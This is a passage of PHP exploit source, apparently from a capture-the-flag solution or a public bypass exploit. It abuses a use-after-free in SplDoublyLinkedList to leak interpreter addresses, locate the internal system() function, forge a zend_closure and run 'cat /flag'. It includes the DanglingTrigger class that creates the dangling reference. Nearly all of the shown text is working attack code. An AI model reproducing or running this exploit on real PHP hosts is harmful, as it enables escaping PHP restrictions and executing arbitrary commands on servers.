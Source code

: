```php
        # point to 0x11223300-0x10, and read its size using strlen()

        # Read zend_array->pDestructor
        $zval_ptr_dtor_addr = read($array_addr + 0x30);

        print('Leaked zval_ptr_dtor address: 0x' . dechex($zval_ptr_dtor_addr) . "\n");

        # Use it to find zif_system
        $system_addr = get_system_address($zval_ptr_dtor_addr);
        print('Got PHP_FUNCTION(system): 0x' . dechex($system_addr) . "\n");

        # In the second freed block, we create a closure and copy the zend_closure struct
        # to a string
        $rw_dll->push(function ($x) {});
        $closure_addr = s2i($fake_dll_element, $leaked_str_offsets[1] + 0x18);
        $data = str_shuffle(str_repeat('A', 0x200));

        for($i = 0; $i < 0x138; $i += 8)
        {
            i2s($data, $i, read($closure_addr + $i));
        }

        # Change internal func type and pointer to make the closure execute system instead
        i2s($data, 0x38, 1, 4);
        i2s($data, 0x68, $system_addr);

        # Push our string, which contains a fake zend_closure, in the last freed chunk that
        # we control, and make the second zval point to it.
        $rw_dll->push($data);
        $fake_zend_closure = s2i($fake_dll_element, $leaked_str_offsets[0] + 0x18) + 24;
        i2s($fake_dll_element, $leaked_str_offsets[1] + 0x18, $fake_zend_closure);
        print('Replaced zend_closure by the fake one: 0x' . dechex($fake_zend_closure) . "\n");

        # Calling it now

        print('Running system("cat /flag");' . "\n");
        $rw_dll[1]('cat /flag');

        print_r('DONE'."\n");
    }
}

class DanglingTrigger
{
    function __construct($i)
    {
        $this->i = $i;
    }

    function __destruct()
    {
        global $dlls;
        #D print('__destruct: ' . $this->i . "\n");
        $dlls[$this->i]->offsetUnset(0);
        $dlls[$this->i+1]->push(123);
        $dlls[$this->i+1]->offsetUnset(0);
    }
}

class SystemExecutor extends ArrayObject
{
    function offsetGet($x)
    {
```